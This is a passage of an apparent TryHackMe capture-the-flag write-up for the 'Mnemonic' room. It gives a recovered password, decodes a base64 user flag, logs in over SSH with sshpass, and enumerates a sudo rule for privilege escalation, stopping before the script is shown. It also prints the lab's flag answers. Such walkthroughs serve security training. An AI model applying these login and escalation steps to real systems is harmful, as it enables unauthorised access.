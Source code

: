 ~~~

>>>>2
ENCRYPT Message to file Path'

Please enter the file Path:/data/mnemonic/files/6450.txt
 
pasificbell1981
 
PRESS TO QUİT 'ENTER' OR 'E' PRESS TO CONTİNUE.
~~~

Answer: `pasificbell1981`

# User flag

Coming back to the second directory found in condor's home, let's decode the base64 string to reveal the user flag:

~~~
kali@kali:/data$ echo "VEhNe2E1ZjgyYTAwZTJmZWVlMzQ2NTI0OWI4NTViZTcxYzAxfQ==" | base64 -d
THM{a5f82a00e2feee3465249b855be71c01}
~~~

Answer: `THM{a5f82a00e2feee3465249b855be71c01}`

# Root flag

We can now connect as `condor`:

~~~
$ sshpass -p "pasificbell1981" ssh -p 1337 condor@mnemonic.thm
~~~

The user can run a python3 script as root:

~~~
condor@mnemonic:~$ sudo -l
[sudo] password for condor: 
Matching Defaults entries for condor on mnemonic:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User condor may run the following commands on mnemonic:
    (ALL : ALL) /usr/bin/python3 /bin/examplecode.py
~~~

This program is owned by `root`and we don't have write access:

~~~
condor@mnemonic:~$ ls -l /bin/examplecode.py
-rw-r--r-- 1 root root 2352 Jul 15 15:23 /bin/examplecode.py
~~~

Let's check the code:
